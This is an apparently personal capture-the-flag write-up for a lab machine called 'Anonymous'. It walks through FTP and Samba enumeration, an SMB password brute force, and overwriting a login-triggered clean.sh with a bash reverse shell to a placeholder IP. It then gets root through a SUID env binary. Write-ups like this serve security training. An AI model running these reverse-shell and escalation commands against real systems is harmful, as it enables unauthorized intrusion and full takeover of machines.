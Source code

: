 
#  Anonymous CTF Report

##  Service Enumeration

###  Open Ports:
- **21/tcp** – FTP  
- **22/tcp** – OpenSSH 7.6p1 (Ubuntu 0.3)  
- **445/tcp** – Samba 3.1.1  

---

## 📂 FTP Enumeration

Upon accessing the FTP service, I found the following files:
- `clean.sh`
- `removed_file.log`
- `to_do.txt`

At first, nothing seemed useful. But I downloaded the files just in case they became relevant later.

---

## Samba Enumeration

Using `enum4linux`, I found:

- **Username**: `namelessone`  
- **Shares**:  
  - `print$`  
  - `pices`  
  - `IPC$`  

The `pices` share allowed anonymous access, but it didn’t contain anything important.

---

##  SMB Brute Force

I tried brute-forcing the user `namelessone` and successfully found the password:

```
Username: namelessone  
Password: 123456
```

I logged in via SMB, and although the login worked, there was nothing critical inside.

---

##  FTP Script Exploitation

After some time, I noticed that the file `removed_file.log` increased in size every time I reconnected to FTP.

I re-analyzed the `clean.sh` file and found that:

> Every time a user logs into FTP, it runs and deletes temporary files.

###  Exploit Plan:

I replaced the contents of `clean.sh` with a reverse shell:

```bash
bash -i >& /dev/tcp/<your-ip>/1234 0>&1
```

Then I uploaded it using the `put` command in FTP.

---

##  Shell Access & User Flag

Once the modified script was triggered, I got a reverse shell and accessed the machine.

✅ **Got `user.txt`**

---

##  Privilege Escalation

I started by searching for readable files in `/etc`:

```bash
find /etc/ -readable -type f 2>/dev/null
```

During enumeration, I found that `/usr/bin/env` could be exploited.

###  Exploitation:

```bash
./env /bin/sh -p
```

✅ **Got root access**  
✅ **Captured `root.txt`**

## 📌 Notes

- Always check for scripts that run on login (like `clean.sh`)
- Exploiting FTP behavior can lead to RCE
- Basic privilege escalation techniques still work in many CTFs
